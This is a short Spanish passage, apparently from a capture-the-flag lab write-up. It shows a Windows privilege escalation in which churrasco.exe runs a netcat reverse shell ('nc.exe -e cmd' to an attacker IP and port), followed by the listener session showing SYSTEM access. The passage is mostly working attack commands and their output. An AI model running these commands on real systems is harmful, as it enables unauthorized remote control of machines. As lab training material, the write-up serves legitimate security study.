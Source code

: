 Nos mandamos una `shell` a nuestro `equipo` mediante `netcat`

```
C:\WINDOWS\Temp\test>churrasco.exe -d "C:\WINDOWS\Temp\test\nc.exe -e cmd 10.10.16.16 1234"
churrasco.exe -d "C:\WINDOWS\Temp\test\nc.exe -e cmd 10.10.16.16 1234"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 472 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0xf18
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0xf10
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

Nos convertimos en `nt authority\system`

```
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.233] 1106
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```
